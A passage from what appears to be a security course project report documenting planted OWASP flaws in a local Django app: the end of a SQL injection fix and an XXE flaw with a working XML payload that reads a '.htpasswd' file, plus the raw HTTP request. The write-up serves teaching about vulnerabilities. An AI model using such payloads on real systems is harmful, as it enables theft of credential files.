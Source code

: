 ### Fix

Escape any input originating from users before applying in queries. In this case it is easily done by utilizing django ORM.

Fix can be found [here](https://github.com/raccna/csb-2021/blob/main/project1/mysite/myapp/views.py#L73)

## FLAW 4: [XML External Entities (XXE)](<https://owasp.org/www-project-top-ten/2017/A4_2017-XML_External_Entities_(XXE)>)

### Source code

Flaw can be found [here](https://github.com/raccna/csb-2021/blob/main/project1/mysite/myapp/views.py#L85)

### Description

Improper implementation/configuration of XML parses allows attacker to utilize the XML external entities feature. In the example attacker retrieves all a file from the server containing usernames and passwords.

### Exploitation

Navigate to form [http://127.0.0.1:8000/myapp/flaw-4](http://127.0.0.1:8000/myapp/flaw-4) and submit following XML payload.

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM ".htpasswd"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

Request:

```
POST /myapp/flaw-4 HTTP/1.1
Host: 127.0.0.1:8000
Content-Length: 313
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8000/myapp/flaw-4
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: csrftoken=zrLfzcEXSsrgxUMCtcDYBc4j4h4dSSOsjSFG8bayan12GFKHHDxfAaUwTPH1xaWM
Connection: close

```